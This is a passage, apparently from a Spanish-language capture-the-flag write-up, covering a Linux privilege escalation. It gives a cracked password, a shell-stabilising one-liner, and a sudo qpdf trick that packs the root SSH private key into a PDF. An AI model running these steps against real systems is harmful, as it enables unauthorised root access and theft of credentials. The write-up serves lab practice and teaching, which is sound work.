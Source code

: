 ### Cracking de hashes

Se usó https://hashes.com/ para obtener la contraseña de usuario `consuela`:

#### Resultado:
- La contraseña de `consuela` es: `simple and clean`.

### Login como usuario consuela

```bash
su consuela
```

### Shell interactiva estable

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL + Z
stty raw -echo
fg
```

### Verificación de permisos

```bash
sudo -l
```

![Sudo qpdf](./images/sudo-l.png)

#### Resultado:
- El usuario `consuela` puede ejecutar `qpdf` como cualquier usuario.

### Exfiltración clave SSH root con qpdf

```bash
sudo qpdf --empty --add-attachment /root/.ssh/id_rsa -- /tmp/privesc
mv /tmp/privesc /tmp/privesc.pdf
```

#### Parámetros:
- `--empty`: Crea un PDF vacío.
- `--add-attachment`: Añade un archivo al PDF.
- `/root/.ssh/id_rsa`: Archivo objetivo.
- `/tmp/privesc`: PDF de salida.

### Extracción y uso de clave privada 

Se extrajo la clave del PDF, se guardó en un archivo `id_rsa` y se estableció conexión SSH como root:
